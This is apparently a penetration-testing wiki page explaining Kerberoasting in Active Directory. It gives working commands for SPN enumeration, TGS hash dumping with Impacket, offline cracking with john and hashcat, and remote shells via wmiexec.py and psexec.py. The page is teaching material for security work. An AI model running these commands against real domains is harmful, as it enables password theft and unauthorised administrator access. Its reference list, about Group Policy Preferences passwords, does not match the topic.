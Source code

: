 # Kerberoasting

## Attack Description

Kerberoasting involves extracting a hash of the encrypted material from a Kerberos "Ticket Granting Service" ticket reply (TGS\_REP), which can be subjected to offline cracking in order to retrieve the plaintext password. This is possible because the TGS\_REP is encrypted using the NTLM password hash of the account in whose context the service instance is running.

![Kerberos Authentication process](../../.gitbook/assets/kerberos\_auth3.JPG)

Managed service accounts mitigate this risk, due to the complexity of their passwords, but they are not in active use in many environments. It is worth noting that shutting down the server hosting the service doesn’t mitigate this issue, as the attack doesn’t involve communication with the target service. It is therefore important to regularly audit the purpose and privilege of all enabled accounts. Kerberos authentication uses Service Principal Names (SPNs) to identify the account associated with a particular service instance.&#x20;

## Attack Requirements

In order to complete this attack, we need to do the following, and so any tool that can assist with providing the following functionality can be used:

* Identify SPN accounts associated with a service instance
* Dump and crack the hash or hashes
* Connect to the target using the obtained creds

## Attack Tools

The list of tools below contains some of the tools that can be used for this attack. Note that some of the listed tools do the same thing, and so it's down to user preference as to which tools are used. Tools:

GetUserSPNs.py (Impacket) --> will try to find and fetch Service Principal Names that are associated with normal user accounts, and dump the associated TGS hash. Output is compatible with JtR and HashCat

ldapsearch --> Can be used to identify accounts that are configured with SPNs.

hashcat --> Crack the extracted hash.

john --> Crack the extracted hash.

wmiexec.py (Impacket) --> A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.

psexec.py (Impacket) --> PSEXEC like functionality example using RemComSvc.&#x20;

## Attack Example

### Discovery

Find the Service Principle Names using ldapsearch:

```
ldapsearch -x -h 10.99.99.101 -p 389 -D 'srvcaccount' -w 'P@ssw0rd1' -b "dc=testdomain,dc=local" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname
```

Find the Service Principle Names and dump the hashes (requires a valid account on the domain) using GetUserSPNs:

```
GetUserSPNs.py -target-domain testdomain.local -usersfile users.txt -outputfile hashes2.txt -dc-ip 10.99.99.101 testdomain.local/srvcaccount:P@ssw0rd1
```

### Exploit

Crack the extracted hashes with john:

```
john --format:krb5tgs hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Crack the extracted hashes with hashcat:

```
hashcat -m 13100 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

Use the cracked hash and the corresponding username to connect to the target system using wmiexec.py:

```
wmiexec.py testdomain.local/administrator:Password1@dc1.testdomain.local
```

Use the cracked hash and the corresponding username to connect to the target system using psexec.py:

```
psexec.py testdomain.local/administrator:Password1@dc1.testdomain.local cmd.exe
```



## References

{% embed url="https://adsecurity.org/?p=2293" %}

{% embed url="https://www.kali.org/tools/gpp-decrypt" %}

{% embed url="https://grimhacker.com/2015/04/10/gp3finder-group-policy-preference-password-finder" %}

[https://bitbucket.org/grimhacker/gpppfinder/src/master/](https://bitbucket.org/grimhacker/gpppfinder/src/master/)

[https://bitbucket.org/grimhacker/gpppfinder/downloads/](https://bitbucket.org/grimhacker/gpppfinder/downloads/)

{% embed url="https://msrc-blog.microsoft.com/2014/05/13/ms14-025-an-update-for-group-policy-preferences" %}

{% embed url="https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30" %}

